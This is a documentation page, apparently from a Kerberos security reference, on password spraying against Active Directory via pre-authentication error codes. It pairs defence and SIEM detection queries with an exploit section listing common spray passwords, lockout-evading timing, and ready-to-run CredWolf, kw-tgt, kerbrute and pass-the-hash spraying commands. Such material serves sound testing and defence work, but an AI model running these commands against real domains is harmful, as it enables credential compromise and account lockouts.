

# Password Spraying via Kerberos

Password spraying uses Kerberos pre-authentication as an oracle to test credentials across many accounts simultaneously. The Kerberos error codes returned by the KDC reveal not only whether the password was correct, but also account status information, and the attack can be performed without domain membership or elevated privileges -- just network access to port 88.

## How It Works

In the [AS Exchange](../../protocol/as-exchange.md), when a client sends an AS-REQ with pre-authentication data (an encrypted timestamp), the KDC attempts to decrypt the timestamp using the user's stored key. The KDC's response varies depending on the result:

| KDC Response | Error Code | Meaning |
|-------------|------------|---------|
| AS-REP (success) | N/A | **Correct password** -- valid credentials |
| `KDC_ERR_PREAUTH_FAILED` | 24 | **Wrong password** -- the encrypted timestamp could not be decrypted |
| `KDC_ERR_CLIENT_REVOKED` | 18 | Account is **locked or disabled** |
| `KDC_ERR_KEY_EXPIRED` | 23 | Password is **expired but valid** -- the password is correct |
| `KDC_ERR_C_PRINCIPAL_UNKNOWN` | 6 | Account **does not exist** |

!!! tip "Error code 23 (`KDC_ERR_KEY_EXPIRED`) is a particularly valuable result during password spraying. It confirms the password is correct even though the account cannot currently authenticate. The attacker knows the credentials and can wait for the user to change their password, or target the account through other means."

### Why Kerberos Instead of NTLM?

Traditional password spraying via SMB or LDAP (NTLM-based) triggers Event ID 4625 (failed logon), which is well-monitored in most environments. Kerberos pre-authentication failures generate different events:

- **Event ID 4771** (Kerberos pre-authentication failed) -- disabled by default in many environments
- **Event ID 4768** (TGT was requested) -- logged for both success and failure, requires correlation

Because 4771 is frequently not enabled and 4768 does not directly indicate failure without inspecting the result code, Kerberos-based spraying can be quieter than NTLM-based approaches in environments with incomplete logging.

!!! tip "Use TCP transport for reliable results"
    Password spraying over UDP is unreliable because successful authentications return a full AS-REP containing the TGT, which exceeds the UDP datagram limit. Use TCP transport for reliable results.

### No Domain Membership Required

Password spraying via Kerberos requires only network access to the DC on port 88. The attacker does not need to be domain-joined, does not need an existing account, and does not need LDAP access. The AS-REQ is the first message in the Kerberos flow and accepts any claimed principal name.



---

## Defend

### Smart Lockout and Fine-Grained Password Policies

Configure account lockout policies that limit the number of failed attempts within an observation window. Fine-Grained Password Policies (FGPPs) allow different lockout thresholds for different groups of users.

```powershell title="View domain password policy and create a Fine-Grained Password Policy"
# View the default domain password policy
Get-ADDefaultDomainPasswordPolicy

# Create a Fine-Grained Password Policy for sensitive accounts
New-ADFineGrainedPasswordPolicy -Name "Strict-Lockout" `
  -Precedence 10 `
  -LockoutThreshold 5 `
  -LockoutObservationWindow "00:30:00" `
  -LockoutDuration "00:30:00" `
  -ComplexityEnabled $true `
  -MinPasswordLength 14
```

!!! warning "Lockout policies are a double-edged sword. Aggressive lockout thresholds (e.g., 3 attempts) can be weaponized by attackers to lock out legitimate users as a denial-of-service attack. A threshold of 5-10 attempts with a 30-minute observation window is a common compromise."

### Banned Password Lists

Use Azure AD Password Protection or a third-party solution to block commonly sprayed passwords. The top patterns attackers use:

- `Season+Year` (Spring2026, Winter2025)
- `Company+123` (Contoso123, AcmeCorp!)
- `Month+Year` (January2026, April2026!)
- `Welcome1`, `Password1`, `Changeme1`

### MFA for Sensitive Accounts

Multi-factor authentication renders password spraying ineffective for interactive logon, even if the password is guessed correctly. Prioritize MFA for:

- All accounts with administrative privileges
- VPN and remote access accounts
- Accounts with access to sensitive data

### Monitor DC Authentication Events

Ensure that Kerberos authentication events are being collected from domain controllers, not just endpoint logon events. Many organizations monitor workstation Event ID 4625 but miss DC-side Kerberos events entirely.

Enable the following audit policies on all DCs:

- **Audit Kerberos Authentication Service**: logs Event ID 4768 (TGT requests) and 4771 (pre-auth failures)
- **Audit Kerberos Service Ticket Operations**: logs Event ID 4769 (TGS requests)

---

## Detect

### Event ID 4771 Spikes

Event ID 4771 (Kerberos Pre-Authentication Failed) is the most direct signal. A surge of 4771 events from a single source IP targeting multiple accounts indicates spraying.

```text
index=security EventCode=4771
| bin span=5m _time
| stats dc(TargetUserName) as unique_users, count by IpAddress, _time
| where unique_users > 20
```

!!! info "Event ID 4771 is generated by the audit subcategory 'Audit Kerberos Authentication Service,' which is not enabled by default in all configurations. Verify that this audit policy is active on all domain controllers."

### Event ID 4768 Failure Analysis

Event ID 4768 is logged for all TGT requests. Filter for failure results to identify spray activity:

```text
index=security EventCode=4768 Status!=0x0
| bin span=10m _time
| stats dc(TargetUserName) as unique_targets, count by IpAddress, _time
| where unique_targets > 15
```

### Rate-Based Alerting

Create SIEM rules that trigger when a single source exceeds a threshold of failed pre-authentication attempts within a time window. A reasonable starting point:

- More than **10 unique target accounts** with failures from one IP in **5 minutes**
- More than **3 `KDC_ERR_CLIENT_REVOKED`** (lockout) responses to one IP in **10 minutes** (indicates the sprayer hit locked accounts)

### Honeypot Accounts

Create accounts that should never authenticate. Any Kerberos pre-authentication attempt for these accounts is malicious:

- Use realistic names (`jsmith.admin`, `svc_monitoring`)
- Set strong passwords so they are never compromised via other means
- Configure alerts on Event ID 4768 or 4771 for these specific accounts

---

## Exploit

### 1. Compile a Username List

Gather valid usernames through one or more methods:

- **LDAP enumeration** (requires existing credentials)
- **[User enumeration](../credential-theft/user-enumeration.md)** via Kerberos (no credentials needed)
- **OSINT**: LinkedIn employee names converted to username patterns (`first.last`, `flast`, `firstl`)
- **Email harvesting**: many organizations use email addresses as UPNs

### 2. Select Passwords to Spray

Choose passwords that are statistically common in corporate environments:

```text
Spring2026!
Summer2026!
Welcome1!
Password123
CompanyName2026!
April2026!
```

### 3. Spray One Password at a Time

For each password, send an AS-REQ for every username on the list. After completing one password, wait before trying the next to stay below lockout thresholds.

**Timing guidance** (assuming a typical lockout policy of 5 attempts / 30 minutes):

- Spray one password across all users
- Wait 30-35 minutes (the full observation window plus margin)
- Spray the next password
- Track any `KDC_ERR_CLIENT_REVOKED` responses -- these indicate an account was already near its lockout threshold from legitimate failed attempts

### 4. Classify Results

| Response | Action |
|----------|--------|
| AS-REP | Valid credentials -- use for further access |
| `KDC_ERR_KEY_EXPIRED` (23) | Password is correct but expired -- note for later |
| `KDC_ERR_PREAUTH_FAILED` (24) | Wrong password -- continue spraying |
| `KDC_ERR_CLIENT_REVOKED` (18) | Account locked -- skip in future rounds |

---

## Tools

### CredWolf

[CredWolf](https://github.com/StrongWind1/CredWolf) is a dual-protocol credential validation tool purpose-built for password spraying. It supports passwords, NT hashes, AES keys, and ticket files over both Kerberos and NTLM, with built-in lockout safety controls.

#### Password spraying

```bash
# Spray a single password across a user list
credwolf -d CORP.LOCAL kerberos --kdc-ip 10.0.0.1 -U users.txt -p 'Spring2026!'

# Spray multiple passwords from a file
credwolf -d CORP.LOCAL kerberos --kdc-ip 10.0.0.1 -U users.txt -P passwords.txt

# AES256 password derivation (derives AES256 key from password + KDC salt)
credwolf -d CORP.LOCAL kerberos --kdc-ip 10.0.0.1 -U users.txt -p 'Spring2026!' -e aes256
```

#### Pass-the-hash and pass-the-key spraying

```bash
# Spray an NT hash as an RC4 key (overpass-the-hash)
credwolf -d CORP.LOCAL kerberos --kdc-ip 10.0.0.1 -U users.txt --rc4-key 7facdc498ed1680c4fd1448319a8c04f --transport tcp

# Spray RC4 keys from a file
credwolf -d CORP.LOCAL kerberos --kdc-ip 10.0.0.1 -U users.txt --rc4-file rc4_keys.txt --transport tcp

# Spray AES256 keys from a file
credwolf -d CORP.LOCAL kerberos --kdc-ip 10.0.0.1 -U users.txt --aes256-file aes256_keys.txt --transport tcp

# Spray AES128 keys from a file
credwolf -d CORP.LOCAL kerberos --kdc-ip 10.0.0.1 -U users.txt --aes128-file aes128_keys.txt --transport tcp
```

#### Paired credential files and ticket validation

```bash
# Pre-paired user:password file
credwolf -d CORP.LOCAL kerberos --kdc-ip 10.0.0.1 --user-pass-file creds.txt

# Pre-paired user:key file (auto-detects RC4 vs AES256 by key length)
credwolf -d CORP.LOCAL kerberos --kdc-ip 10.0.0.1 --user-key-file pairs.txt --transport tcp

# Validate an existing ticket (auto-detects ccache vs kirbi)
credwolf -d CORP.LOCAL kerberos --kdc-ip 10.0.0.1 -u Administrator --ticket admin.ccache
```

#### Lockout safety

```bash
# 2-second delay with 0.5s random jitter between attempts
credwolf --delay 2 --jitter 0.5 -d CORP.LOCAL kerberos --kdc-ip 10.0.0.1 -U users.txt -P passwords.txt

# Stop after the first valid credential
credwolf --stop-on-success -d CORP.LOCAL kerberos --kdc-ip 10.0.0.1 -U users.txt -P passwords.txt

# Stop after 3 consecutive CLIENT_REVOKED responses (likely causing lockouts)
credwolf --max-lockouts 3 -d CORP.LOCAL kerberos --kdc-ip 10.0.0.1 -U users.txt -P passwords.txt
```

!!! tip "RC4 vs AES request counts"
    RC4 password spraying sends **1 AS-REQ per attempt** (the password is used directly as the RC4 key). AES password spraying sends **2 AS-REQs per attempt**: the first retrieves the per-user salt (no lockout impact), and the second sends the encrypted timestamp (this is the one that counts toward the bad-password counter). The lockout impact is identical -- 1 failed login per wrong password -- but AES generates twice the network traffic.

#### NTLM spraying fallback

For environments where Kerberos is not available (e.g., the attacker cannot reach port 88 but can reach SMB or LDAP), CredWolf also supports NTLM-based spraying:

```bash
# NTLM password spray over SMB (default)
credwolf -d CORP.LOCAL ntlm --dc-ip 10.0.0.1 -U users.txt -P passwords.txt

# NTLM spray over LDAP
credwolf -d CORP.LOCAL ntlm --dc-ip 10.0.0.1 -U users.txt -P passwords.txt --transport ldap
```

### kerbwolf: kw-tgt

`kw-tgt` requests a TGT using provided credentials. While it is not a dedicated spraying tool, it can test individual username/password combinations and its error reporting reveals the KDC's response code.

```bash
# Test a single credential pair
kw-tgt -d CORP.LOCAL --dc-ip 10.0.0.1 -u alice -p 'Spring2026!'
```

A successful request produces a ccache file. A failure prints the KDC error code, which reveals whether the password was wrong, the account is locked, or the password is expired.

For batch spraying with `kw-tgt`, a simple shell loop works:

```bash title="Spray a single password across a user list with kw-tgt"
# Spray one password across a user list
while IFS= read -r user; do
  kw-tgt -d CORP.LOCAL --dc-ip 10.0.0.1 -u "$user" -p 'Spring2026!' -o "/tmp/${user}.ccache" 2>&1
done < users.txt
```

### Other Spraying Tools

| Tool | Platform | Notes |
|------|----------|-------|
| kerbrute `passwordspray` | Cross-platform (Go) | Purpose-built for Kerberos spraying; fast, handles lockout detection |
| Rubeus `brute` | Windows (.NET) | Spray from a domain-joined machine; supports `/outfile` for results |
| Spray (GitHub) | Python | Simple sprayer with lockout-aware timing |

!!! warning "Always respect the domain's lockout policy during testing. Locking out accounts during a penetration test is disruptive and may violate the rules of engagement. Query the lockout policy first: `Get-ADDefaultDomainPasswordPolicy | Select-Object LockoutThreshold, LockoutObservationWindow`"
